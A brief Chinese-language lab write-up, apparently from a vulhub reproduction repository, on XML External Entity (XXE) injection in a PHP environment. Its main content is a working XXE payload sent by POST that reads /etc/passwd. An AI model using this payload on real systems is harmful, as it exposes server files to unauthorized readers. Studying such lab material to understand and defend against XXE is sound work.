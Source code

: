 # PHP环境 XML外部实体注入漏洞（XXE）

###### by ADummy

### 0x00利用路线

​			构造XXE payload--->POST发送--->有回显（也有blind xxe 参考资料）

### 0x01漏洞介绍			

​			PHP环境 XML外部实体注入漏洞（XXE）

### 0x02漏洞复现

#### 		payload

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

![PHP_XML外部实体注入_XXE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/PHP_XML外部实体注入_XXE_1.png)

### 0x03参考资料

https://thief.one/2017/06/20/1/

https://www.cnblogs.com/leixiao-/p/10244927.html

https://blog.csdn.net/m0_46580995/article/details/107450111


